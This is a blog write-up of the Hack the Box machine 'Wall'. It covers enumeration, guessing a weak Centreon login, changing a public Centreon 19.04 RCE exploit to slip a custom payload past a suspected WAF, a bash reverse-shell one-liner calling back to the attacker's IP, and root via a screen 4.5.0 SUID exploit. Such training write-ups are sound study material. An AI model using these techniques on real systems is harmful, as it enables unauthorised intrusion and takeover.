 +++
author = "Nick"
categories = ["hack the box", "python", "burpsuite", "gobuster", "RCE", "reverse shell", "screen", "LPE"]
date = 2019-12-07T13:15:15Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/11/wall.png"
slug = "hack-the-box-wall"
summary = "Welcome to my write-up for the Hack the Box machine, Wall. This box is listed as an easy box, let's jump in!"
tags = ["hack the box", "python", "burpsuite", "gobuster", "RCE", "reverse shell", "screen", "LPE"]
title = "Hack the Box - Wall"

+++


Welcome to my write-up for the Hack the Box machine, Wall. This box is listed as a medium box, let's jump in!

As normal we start our enumeration process with ```nmap```. 

```nmap -sC -sV -oA initial_scan 10.10.10.157```

our results are pretty standard:

```
Nmap scan report for 10.10.10.157
Host is up (0.051s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.89 seconds
```

Let's head over to see what's being hosted. 

We see a standard ```apache2``` install. So we're going to want to enumerate this site a bit. We'll add it to our hostfile as wall.htb and send it into ```gobuster```.

We run:
```gobuster dir -u http://wall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40```

We only get back two standard results

{{< figure src="__GHOST_URL__/content/images/2019/11/image-16.png" >}}

Since I didn't specify the ```-x``` parameter on the initial scan, we need to run it again for file extensions. We see there are a few with the .php extension.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-17.png" >}}

There are some interesting files and folders after enumeration. There doesn't seem to be much we can do with the two new ```php``` files. When we open ```Burpsuit``` and start to poke the site with ```GET``` and ```POST``` requests, we see that if we send a ```POST``` request to ```/monitoring/``` we are redirected to ```/centreon```.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-18.png" >}}

We go to the address and are greated with a login form. We see the version running is 19.04. A quick ```searchsploit``` on Centreon shows us that there is an RCE for this particular version.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-19.png" >}}

We can copy this exploit to our current working directory with the ```-m``` command of ```searchsploit```.

```searchsploit centreon -m 47069```.

When we run the exploit we see our options:

{{< figure src="__GHOST_URL__/content/images/2019/11/image-20.png" >}}

In this case we'll need to obtain user credentials to run the exploit. Now you can brute force this login with a few options, ```hydra```, ```wfuzz``` or just write your own. In my case guessing the password without doing any of those worked out, turns out password1 isn't exactly hard to guess. Now that we have some credentials, we can use this exploit. 

So we give our exploit our credentials and our IP and port. Start a new NC listener and fire it off... Nothing. Hmmm, so We will modify the exploit to show us what might be going on. We modify the last bit of lines to show as this:

{{< figure src="__GHOST_URL__/content/images/2019/11/image-25.png" >}}

Now that we will get back some data on what might be going on, we run it again and see what's not working. We get back some XML data but it seems that it's working. There could be a WAF in place blocking the standard malicious payloads. So we'll again modify our script to simply take the payload we give it.

To do this we will change the amount of arguments our script takes. We will remove the line 30 & 31 for  ```ip``` and ```port```. We will then create an argument called ```payload```. We also need to modify the expected length on line 22. We should have something like this:

{{< figure src="__GHOST_URL__/content/images/2019/11/image-26.png" caption="\" >}}

We then need to modify our ```payload_info```. Line 69 is where the payload the default exploit would use. However, we can simply replace this payload with the variable ```payload```. This way we can modify our payload on the go to evade whatever might be blocking the standard payload.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-27.png" >}}

Our first goal will be to test it. We will execute our newly modified script to test that it works. We will start up a ```SimpleHTTPServer``` and host a file. We will then issue ```wget``` and see if the file is retrieved. In this case I made a quick file called shell.sh which has the standard bash remote connection:

```bash -i >& /dev/tcp/10.10.15.154/4444 0>&1```

We fire off our new exploit and we see it connect back to us and download the file.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-28.png" >}}

Below we see that the exploit has indeed worked.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-21.png" >}}

Next we have to move our file to the ```/tmp``` directory just to be sure it can run.  Then change the permissions of our script so it can execute.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-22.png" >}}

We then fire up our listener and tell the script to execute. The first few times I tried this, I was unable to get a shell on random ports. So we just use the good ol' port 53 trick.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-24.png" >}}

We get a shell back as ```www-data```! Now that we are on the machine, we can start enumerating. We download ```linenum``` and see what it comes back with. One item that is noticeable is ```screen-4.5.0``` in our SUID section.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-29.png" >}}

A quick ```searchsploit``` for screen comes back with two possible Local Privilege Escalations.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-30.png" >}}

We will download the exploit, host it on our server and get it from the target machine.

{{< figure src="__GHOST_URL__/content/images/2019/11/image-31.png" >}}

The exploit will error, however if we check the directory, we see our shell file ```rootshell```.  After that we run it and we have root shell:

{{< figure src="__GHOST_URL__/content/images/2019/11/image-33.png" >}}

We then grab the user flag. The box is done!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

